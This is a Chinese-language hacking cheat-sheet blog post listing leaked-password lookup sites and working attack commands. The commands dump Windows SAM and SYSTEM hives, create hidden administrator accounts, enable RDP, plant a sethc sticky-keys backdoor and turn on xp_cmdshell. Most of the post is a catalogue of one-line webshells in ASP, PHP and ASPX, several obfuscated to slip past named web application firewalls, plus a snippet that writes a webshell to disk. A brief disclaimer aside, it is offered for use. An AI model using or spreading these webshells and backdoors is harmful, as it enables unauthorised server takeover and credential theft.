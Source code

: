 ```yaml
---
title: 那些Hack神器及奇技淫巧
date: 2016-09-11 23:07:28
tags: Hack
categories: Hack

---
```

# 简介
这里会总结一些Hack经验，都是我日常使用的，会长期更新，渗透测试专用，请勿挪作非法用途。

# 那些网站
## 社工库

### 国内

http://www.findmima.com/

http://www.wghostk.com/so/

http://p.08lt.com

http://www.144118.com/

### 国际

https://haveibeenpwned.com/

https://leakbase.pw/

## C段
http://www.144118.com/

## whois查询
http://whois.domaintools.com/

## 历史页面

# 那些实用命令
## reg导出sam
reg save hklm\sam sam.hive

reg save hklm\system system.hive

reg save hklm\security security.hive

## Windows新建用户
net user admin$ admin /add

net localgroup administrators admin$ /add

net user Guest 1234

net user Guest /active:yes

net localgroup administrators Guest /add

## 打开3389(2003,xp)
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

## sethc后门
Copy C:\windows\explorer.exe C:\Windows\System32\sethc.exe /y

## mssql xpcmdshell报错
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

# 那些一句话

## asp一句话木马
```
<%eval request("x")%>
```

## php一句话木马
```
<?php eval($_POST[g]);?>
```

## aspx一句话
```
<%@ Page Language="Jscript"%><%eval(Request.Item["x"],"unsafe");%>
```

## 数据库加密一句话(密码a)
```
┼攠數畣整爠煥敵瑳∨≡┩愾
```

## 网站配置、版权信息专用一句话
```
"%><%Eval Request(x)%>
```

## 一句话再过护卫神
```
<%Y=request("x")%> <%execute(Y)%>
```

## 过拦截一句话木马
```
<% eXEcGlOBaL ReQuEsT("x") %>
```

## asp闭合型一句话 
```
%><%eval request("0o1Znz1ow")%><%
```

## 能过安全狗的解析格式
```
;hfdjf.;dfd.;dfdfdfd.asp;sdsd.jpg
```

## 突破安全狗的一句话
```
<%Y=request("x")%> <%eval(Y)%>
```

## elong过安全狗的php一句话
```
<?php  $a = "a"."s"."s"."e"."r"."t";  $a($_POST[cc]);  ?>
```

## 后台常用写入php一句话（密码x）
```
<? 
 $fp = @fopen("c.php", 'a'); 
 @fwrite($fp, '<'.'?php'."\r\n\r\n".'eval($_POST[x])'."\r\n\r\n?".">\r\n"); 
 @fclose($fp); 
 ?>
```
 
## 高强度php一句话
```
<?php substr(md5($_REQUEST['heroes']),28)=='acd0'&&eval($_REQUEST['c']);?>
```

## 新型变异PHP一句话(密码b4dboy)
```
($b4dboy = $_POST['b4dboy']) && @preg_replace(‘/ad/e’,’@’.str_rot13(‘riny’).’($b4dboy)’, ‘add’);
```

## 突破安全狗的aspx一句话
```
<%@ Page Language="C#" ValidateRequest="false" %>
<%try{ System.Reflection.Assembly.Load(Request.BinaryRead(int.Parse(Request.Cookies["你的密码"].Value))).CreateInstance("c", true, System.Reflection.BindingFlags.Default, null, new object[] { this }, null, null); } catch { }%>
```

## 突破护卫神，保护盾一句话
```
<?php $a = str_replace(x,"","axsxxsxexrxxt");
$a($_POST["test"]); ?>
```

## PHP高强度一句话：
```
<?php substr(md5($_REQUEST['x']),28)=='acd0'&&eval($_REQUEST['c']);?>  
```

菜刀连接：``/x.php?x=lostwolf``  脚本类型：php  密码：c
```
<?php assert($_REQUEST["c"]);?>
```

## aspx过狗
```
<%@ Page Language="Jscript"%><%var name:String=Request.Item["cmd"];Response.Write(eval(name,"unsafe"));%>
```

# 那些神器
* Sqlmap

